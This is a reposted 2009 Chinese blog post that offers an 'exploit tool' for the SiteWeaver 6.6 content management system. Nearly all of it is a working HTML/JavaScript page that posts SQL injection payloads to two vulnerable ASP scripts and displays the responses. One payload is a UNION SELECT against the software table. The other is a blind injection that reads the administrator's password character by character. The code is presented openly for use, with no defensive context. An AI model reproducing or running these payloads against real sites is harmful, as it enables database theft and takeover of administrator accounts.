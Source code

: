 ```yaml
---
title: 动易SiteWeaver 6.6版最新漏洞利用工具
description: 动易SiteWeaver6.6版最新漏洞利用工具，直接贴代码：......
date: 2009-02-22 10:44:04
category: 漏洞信息
tags: ['动易', '漏洞信息', 'exploit']
post_id: 793
alias: SiteWeaver-6.6-exploit
ViewNums: 8487
---
```


[动易SiteWeaver 6.6版最新漏洞利用工具](/blog/siteweaver-66-exploit)，直接贴代码：

<script>
function gb2utf8(data){
var glbEncode = [];
gb2utf8_data = data;
execScript(“gb2utf8_data = MidB(gb2utf8_data, 1)”, “VBScript”);
var t=escape(gb2utf8_data).replace(/%u/g,“”).replace(/(.{2})(.{2})/g,“%$2%$1″).replace(/%([A-Z].)%(.{2})/g,“@$1$2″);
t=t.split(“@”);
var i=0,j=t.length,k;
while(++i<j) {
k=t[i].substring(0,4);
if(!glbEncode[k]) {
gb2utf8_char = eval(“0x”+k);
execScript(“gb2utf8_char = Chr(gb2utf8_char)”, “VBScript”);
glbEncode[k]=escape(gb2utf8_char).substring(1,6);
}
t[i]=glbEncode[k]+t[i].substring(4);
}
gb2utf8_data = gb2utf8_char = null;
return unescape(t.join(“%”));
}

function PostData(){
var url = document.getElementById(“url”).value;
var post= document.getElementById(“post”).value;
var oXmlHttp = new ActiveXObject(“Microsoft.XMLHTTP”);
oXmlHttp.open(“POST”, url, false);
if (url.indexOf(“User_CheckReg.asp”)>0){oXmlHttp.setRequestHeader(“Content-Type”,“application/x-www-form-urlencoded”);}
oXmlHttp.send(post);
var GetResult=gb2utf8(oXmlHttp.responseBody);
if (oXmlHttp.readyState == 4) {
if (oXmlHttp.status == 200) {
document.getElementById(“getResult”).value = GetResult;
}
}
}
function Inject(i){
if (i==1){
document.getElementById(“url”).value=“http://127.0.0.1:81/pe2006/Dyna_Page.asp”;
document.getElementById(“post”).value=‘<?xml version=”1.0″ encoding=”gb2312″?><root><id>21</id><page>1</page><value>0 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,DownloadUrl,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52 from PE_soft where softid=1|1</value></root>’;
}
else
{
document.getElementById(“url”).value=“http://127.0.0.1:81/pe2006/Reg/User_CheckReg.asp”;
document.getElementById(“post”).value=“UserName=admino’%20union%20select%201%20from%20pe_admin%20where%20username=’admin’band%20Mid(password,1,1)>’0″;
}
}

</script>
<BODY>
<div align=“center”>[动易SiteWeaver6.6版最新漏洞利用工具](/blog/siteweaver-66-exploit)</div>
请输入URL：<br>
<INPUT TYPE=“text” id=“url” value=“http://127.0.0.1:81/pe2006/Dyna_Page.asp” style=“width:90%;”>&nbsp;&nbsp;&nbsp;<br>
输入Post：<br>
<textArea id=“post” style=“width:90%; height:80;”><?xml version=“1.0″ encoding=“gb2312″?>
<root><id>21</id><page>1</page><value>0 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,DownloadUrl,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52 from PE_soft where softid=1|1</value></root></textArea>
<div align=“center”><INPUT TYPE=“button” value=“漏洞一示例” onClick=“Inject(1);”>&nbsp;&nbsp;<INPUT TYPE=“button” value=“ 提 交 ” onClick=“PostData();”>&nbsp;&nbsp;<INPUT TYPE=“button” value=“漏洞二示例” onClick=“Inject(2);”></div>
<hr size=2 >
注入结果：<br>
<textArea id=“getResult” style=“width:90%; height:200;”></textArea>
</BODY>

作者：Cschii
转自黑客防线

